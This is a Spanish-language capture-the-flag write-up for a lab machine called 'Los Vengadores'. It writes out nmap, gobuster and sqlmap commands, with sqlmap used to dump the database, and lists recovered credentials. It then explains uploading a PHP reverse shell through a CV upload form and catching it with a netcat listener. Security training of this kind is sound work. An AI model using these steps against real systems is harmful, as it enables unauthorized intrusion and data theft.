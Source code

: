 
#### Introducción

Este informe se basa en un documento titulado "Los Vengadores" que detalla una serie de metodologías y herramientas utilizadas para llevar a cabo un ejercicio de penetración en una red. Las técnicas descritas abarcan desde el escaneo de red hasta la explotación de vulnerabilidades mediante la obtención de una reverse shell. A continuación, se presenta un resumen de las etapas principales y las herramientas utilizadas.

#### Escaneo de Red

**Nmap:**

- **Comando Utilizado:** `sudo nmap -p- -open -sS -sV -Pn --min-rate 5000 10.0.2.15 -vvv`
- **Resultados:** Se identificaron dos puertos abiertos: 22 (SSH) y 80 (Servidor web).

Es importante agregar la IP de la máquina objetivo al archivo `/etc/hosts` para su correcto funcionamiento, permitiendo acceso a la URL `losvengadores.com`.

#### Fuzzing de Directorios

**Gobuster:**

- **Comando Utilizado:** `gobuster dir -u http://losvengadores.com/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
- Se exploraron varias rutas, pero ninguna fue útil para el reto específico.

#### Enumeración

**Herramientas Utilizadas:**

- **Burpsuite:** Para interceptar y manipular peticiones web.
- **Sqlmap:** Para identificar y explotar vulnerabilidades SQL.

**Proceso:**

1. Interceptación de la petición de búsqueda en la página inicial utilizando Burpsuite.
2. Exportación de la petición interceptada a un archivo `.req`.
3. Ejecución de Sqlmap para inyectar y extraer datos de la base de datos:
    
    bash
    
    Copiar código
    
    `sqlmap -r losvengadoress.req -p searchVal --batch --level 5 --risk 3 --dump -All --threads 10`
    

#### Explotación

**Autenticación:**

- Usuario: `capitanamerica`
- Contraseña: `adamantium`

**Acceso y Modificación:**

- Navegar a la URL de login y autenticarse con las credenciales obtenidas.
- Modificar la URL eliminando `panelControl.php` para acceder a la funcionalidad de carga de archivos.

**Carga de Reverse Shell:**

1. Modificación del formulario de carga de CV en el HTML:
    
    html
    
    Copiar código
    
    `<div class="col-sm-12 col-md-6">     <form action="CV-upload.php" method="post" enctype="multipart/form-data">         <input id="cv" name="cv" type="file" placeholder="Your CV" />         <button class="btn tm-btn-submit" onclick="upload_cv()">Submit</button>     </form> </div>`
    
2. Creación y carga de un archivo `cv.php` con una reverse shell generada desde `https://www.revshells.com/`.
3. Ejecución de un listener en el atacante:
    
    bash
    
    Copiar código
    
    `nc -nlvp 4444`
    
4. Navegación a la URL donde se subió la reverse shell para activarla.